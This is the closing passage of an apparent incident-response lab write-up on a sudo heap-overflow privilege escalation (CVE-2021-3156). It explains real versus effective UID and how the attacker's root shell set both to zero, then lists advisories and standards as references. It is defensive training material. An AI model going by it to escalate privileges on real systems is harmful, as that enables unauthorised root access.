5. **EUID vs Real UID:** **Real UID (UID)** identifies the user who owns the process (used for accounting and signal delivery). **Effective UID (EUID)** determines the process's access permissions for Discretionary Access Control (DAC) file checks and system calls. In SetUID binaries, EUID temporarily becomes 0 while UID remains 1001. Once the attacker spawned a full root shell, both UID and EUID were set to 0 (`setresuid(0, 0, 0)`), granting permanent root privileges.

</details>

---

## 📚 References & Technical Documentation

- [1] Blue Team Labs Online (BTLO), *"Paranoid" Incident Response Challenge*: [https://blueteamlabs.online](https://blueteamlabs.online)
- [2] Qualys Security Advisory, *CVE-2021-3156: Baron Samedit Heap-based Buffer Overflow in Sudo*: [https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit.txt](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit.txt)
- [3] NIST National Vulnerability Database (NVD), *CVE-2021-3156 Detail*: [https://nvd.nist.gov/vuln/detail/CVE-2021-3156](https://nvd.nist.gov/vuln/detail/CVE-2021-3156)
- [4] NIST Special Publication 800-61 Revision 2, *Computer Security Incident Handling Guide*: [https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [5] MITRE ATT&CK Enterprise Matrix v14: [https://attack.mitre.org](https://attack.mitre.org)
- [6] Red Hat Enterprise Linux, *Linux Audit Daemon (auditd) Documentation*: [https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/security_guide/chap-system_auditing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/security_guide/chap-system_auditing)
